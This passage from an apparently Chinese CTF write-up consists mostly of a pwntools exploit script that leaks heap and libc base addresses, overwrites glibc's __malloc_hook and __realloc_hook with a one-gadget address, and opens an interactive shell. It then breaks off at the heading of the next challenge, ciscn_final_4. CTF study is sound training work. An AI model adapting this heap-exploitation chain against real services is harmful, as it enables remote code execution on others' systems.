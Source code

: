```py
    #leak heap
    for i in range(11):
        Add()#0
    Delete(0)
    Delete(0)


    Add("\x80\x70")#10
    p.recvuntil("\x80\x70",drop=False)
    heap_base = u64(('\x80\x70'+p.recvuntil(" ",drop=True)).ljust(8,'\x00')) - 0x80
    log.success("heap base => " + hex(heap_base))

    #leak libc
    Add(p64(heap_base+0x2e0),p64(heap_base+0x2e0)*13)#11
    payload = p64(heap_base+0x2b0)
    raw_input()
    Add(payload)#11

    Add(p64(heap_base+0x2b0),p64(heap_base+0x2b0)*3+p64(0)+p64(0x421)+p64(heap_base+0x2b0)*3)
    Delete(1)

    Add('\xa0','\xa0')
    raw_input()
    p.recvuntil("\x7f\x20")
    libc_base = u64(p.recv(6).ljust(8,'\x00')) - 96 - libc.sym['__malloc_hook'] - 0x10
    log.success("libc base => " + hex(libc_base))


    Add(p64(libc_base+libc.sym["__malloc_hook"]-0x28),p64(0))
    Add(p64(libc_base+libc.sym["__free_hook"]-0x18),p64(0))
    for i in range(8):
        Add(p64(libc_base+libc.sym["__free_hook"]-0x18),p64(0))

    shell_addr = libc_base + gadgets[1]
    Add(p64(0),p64(libc_base+libc.sym['__malloc_hook'])+p64(libc.sym['__realloc_hook'])+p64(shell_addr))
    #gdb.attach(p)
    p.recvuntil('>> ')
    p.sendline('1')
    p.interactive()

exp()
```

### ciscn_final_4

#### 前言

应该是UCTF`orw_heap`的原型题，不过要求更严苛了一点

#### 程序分析
